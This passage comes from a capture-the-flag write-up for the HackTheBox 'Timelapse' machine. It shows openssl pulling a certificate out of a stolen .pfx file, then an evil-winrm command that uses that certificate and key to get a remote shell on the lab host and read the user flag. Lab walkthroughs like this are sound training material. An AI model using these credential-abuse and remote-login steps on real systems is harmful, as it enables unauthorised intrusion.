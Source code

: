 ```powershell
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out pfx_cert.crt
```

![key2](/docs/assets/img/HTB-Timelapse/key2.png)

## Logging in

We now have everything we need to finally get into the machine.

Use `evil-winrm` and freshly extracted `pfx_key.key` and `pfx_cert.crt` to get in.

*   `-S` Enable SSL, because its connecting to 5986;
*   `-c` pfx_cert.crt - provide the public key certificate
*   `-k` pfx_key.key - provide the private key
*   `-i` IP - host to connect to

```powershell
evil-winrm -i 10.129.116.41 -k pfx_key.key -c pfx_cert.crt -S
```

![winrm1](/docs/assets/img/HTB-Timelapse/winrm1.png)

And we can get our user flag

![user_flag](/docs/assets/img/HTB-Timelapse/user_flag.png)

# Shell as svc_deploy
